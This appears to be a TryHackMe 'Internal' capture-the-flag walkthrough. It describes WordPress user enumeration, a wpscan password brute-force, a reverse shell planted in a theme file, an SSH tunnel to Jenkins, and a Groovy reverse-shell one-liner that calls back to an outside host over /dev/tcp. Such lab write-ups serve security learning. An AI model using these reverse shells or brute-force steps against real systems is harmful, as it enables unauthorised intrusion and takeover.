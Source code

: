 ```yaml
---
title: THM | Internal | 22-07-2023
updated: 2023-07-23 18:07:05Z
created: 2023-07-22 14:41:03Z
latitude: 25.57877260
longitude: 91.89325350
altitude: 0.0000
---
```


# THM | Internal | 22-07-2023

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

  - User.txt
  - Root.txt
 
# Reconnaissance 
## Nmap Scan:
```bash
└─$ nmap -sC -sV -oN nmap.txt 10.10.223.143                       
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 10:40 EDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.07% done; ETC: 10:40 (0:00:17 remaining)
Nmap scan report for 10.10.223.143
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.18 seconds
```

### Open Ports:
- 22/tcp ssh
- 80/tcp http

## Port 80 (HTTP)
 We have added the ip to internal.thm in our `/etc/hosts` file. 
And It opens a default apache2 page.

![0e0c0ecb72d1cfa002b6d8d640cb6bc3.png](/Tryhackme/Internal/_resources/0e0c0ecb72d1cfa002b6d8d640cb6bc3.png)

  We will now start the gobuster for finding hidden directories. 
  
![765a3ce1526da8af125720b7f354b796.png](/Tryhackme/Internal/_resources/765a3ce1526da8af125720b7f354b796.png)

 We found `/blog` directory first, so we will open it. 
 
 ![b7b49634886987bd1324814610c79b14.png](/Tryhackme/Internal/_resources/b7b49634886987bd1324814610c79b14.png)
 
 Then, we checked in the source page and found its a wordpress site running version `5.4.2`
 
 ![482875c86db1560e16419fbab2a39205.png](/Tryhackme/Internal/_resources/482875c86db1560e16419fbab2a39205.png)
 
 Now we will check `/wp-admin` page, which is the login page for the wp sites.
 
 ![a9296e2550a71973ede6d1e29a9ca7e7.png](/Tryhackme/Internal/_resources/a9296e2550a71973ede6d1e29a9ca7e7.png)
 
 Next we tried to login with some default credential and found admin username exist.
 We can confirm that by checking the error message returned.
 
 Error message if we have valid username.
 ![c547f3148ad3b8f8135efc178067d3d4.png](/Tryhackme/Internal/_resources/c547f3148ad3b8f8135efc178067d3d4.png)
 
 Error message if user does not exit.
 
 ![2bd2775ac66656409d1a5f457cffa84d.png](/Tryhackme/Internal/_resources/2bd2775ac66656409d1a5f457cffa84d.png)
 
We can also find the username by running the following wpscan command:
```
wpscan --url internal.thm/blog/ -e u
```
 ![79cf1321620a105f12b8eb9047e30681.png](/Tryhackme/Internal/_resources/79cf1321620a105f12b8eb9047e30681.png)
 
 We checked for any vulnerable plugins by this following command, but we didn't found.
```
wpscan --url internal.thm/blog/ -e vp
```

Run wpscan for password cracking with the following command:
```
wpscan --url http://internal.thm/blog/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin 
```

We have successfully cracked the password:

![bceb4a94df2bbd1a65aa1eea65e95d8e.png](/Tryhackme/Internal/_resources/bceb4a94df2bbd1a65aa1eea65e95d8e.png)

Now, we have logged in to the wordpress dashboard with the password found above:

![c9dacac26baea8197c99475769ed045d.png](/Tryhackme/Internal/_resources/c9dacac26baea8197c99475769ed045d.png)

Now we will edit the php file of the theme to get reverse shell. In this case, we have edited footer.php

![64a66ddb9e97e23150c0eca9b5a8d3a4.png](/Tryhackme/Internal/_resources/64a66ddb9e97e23150c0eca9b5a8d3a4.png)

We have got the reverse shell.

![7fc213435bd70d2b2242a20838891a3b.png](/Tryhackme/Internal/_resources/7fc213435bd70d2b2242a20838891a3b.png)

We have found the sql database username and password under `/var/www/html`

![6affbc1c49ac74ce613c4ad8790a0487.png](/Tryhackme/Internal/_resources/6affbc1c49ac74ce613c4ad8790a0487.png)

Then, We have found password for the user `aubreanna` in the `/opt folder`

![252872bc580367992c8fd0f4148b3448.png](/Tryhackme/Internal/_resources/252872bc580367992c8fd0f4148b3448.png)

We have successfully ssh to the user `aubreanna` with the found password and read the user flag.

![eaafd37d844aa0ffc1467f37ab3c9217.png](/Tryhackme/Internal/_resources/eaafd37d844aa0ffc1467f37ab3c9217.png)

We also found jenkins.txt and it says jenkins server running on `172.17.0.2:8080`

![d0a3e701f6d7a832823f3bafb3326078.png](/Tryhackme/Internal/_resources/d0a3e701f6d7a832823f3bafb3326078.png)

So, we will use ssh tunneling to access this server from local machine using the following command.
```
ssh -L 4444:172.17.0.2:8080 aubreanna@internal.thm
```
We accessed the jenkins login page:

![2b3b657d0b2990844c5e7fc4ef2f281b.png](/Tryhackme/Internal/_resources/2b3b657d0b2990844c5e7fc4ef2f281b.png)

As jenkins default credentials are not working we need to brute force the password.

We have intercepted the login request with burp suite and run the brute force attack and cracked the password for username `admin`

![97251bbe2087edb5d1e7948f0be25ee8.png](/Tryhackme/Internal/_resources/97251bbe2087edb5d1e7948f0be25ee8.png)

Then, we have logged in successfully.
![1c9de55afe9192b7ac856d0317dd3df2.png](/Tryhackme/Internal/_resources/1c9de55afe9192b7ac856d0317dd3df2.png)

Now we will look for uploading reverse shell in jenkins script console. 
Then, we have run the java reverse shell and got the jenkins shell.
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![43eba5b456932a684bc29d5091bf0ead.png](/Tryhackme/Internal/_resources/43eba5b456932a684bc29d5091bf0ead.png)

![e7f9ef6ab4f77d91c5c9c9f0f09be799.png](/Tryhackme/Internal/_resources/e7f9ef6ab4f77d91c5c9c9f0f09be799.png)

In the `/opt` folder we found `note.txt`with root password.

![2e63c4462310ad8c4545286147dd2eee.png](/Tryhackme/Internal/_resources/2e63c4462310ad8c4545286147dd2eee.png)

So, we have `ssh` to the root user of `internal.thm` and got the root flag.

![d925e2718b75e3fd60b43db16ad785d6.png](/Tryhackme/Internal/_resources/d925e2718b75e3fd60b43db16ad785d6.png)

So, we have successfully rooted this machine. 

